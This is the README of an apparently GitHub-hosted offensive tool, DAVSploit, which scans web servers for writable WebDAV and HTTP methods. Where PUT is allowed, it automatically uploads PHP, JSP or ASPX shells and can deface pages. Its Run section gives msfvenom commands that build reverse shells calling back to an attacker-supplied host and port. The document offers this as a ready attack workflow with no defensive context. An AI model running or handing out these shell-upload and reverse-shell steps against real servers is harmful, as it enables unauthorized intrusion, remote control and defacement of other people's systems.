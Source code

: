 
╔╦╗╔═╗╦  ╦╔═╗┌─┐┬  ┌─┐┬┌┬┐
 ║║╠═╣╚╗╔╝╚═╗├─┘│  │ ││ │ 
═╩╝╩ ╩ ╚╝ ╚═╝┴  ┴─┘└─┘┴ ┴ V1.1

DAVSploit tool is for automating checking for PUT,MOVE,COPY and DELETE HTTP methods
aswell as automating webdav exploitation.

Features
================
- Automatically checks PUT,MOVE,COPY,DELETE,PATCH,CONNECT and TRACE for webserver
- Automatically checks for web dav directories if they exists and gets HTTP allow methods
- if PUT exits will try to automatically upload a shell
- Built in Server detection, payload that matches server version will be sent
- Three diffrent payload types PHP,JSP,ASPX and HTML
- Colored UI
- HTML payload includes deface web page


Davsploit V2
==============
- Add more payloads
- Add more webservers to detection list
- Fix false positive with PUT method
- Perform content discovery and create wordlist to scan more directories


Run
===============
Create a PHP reverse shell
- msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
Create a JSP reverse shell
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f raw > shell.jsp
Create a ASPX reverse shell
- msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<Port> -f aspx > shell.aspx

python3 DAVSploit.py
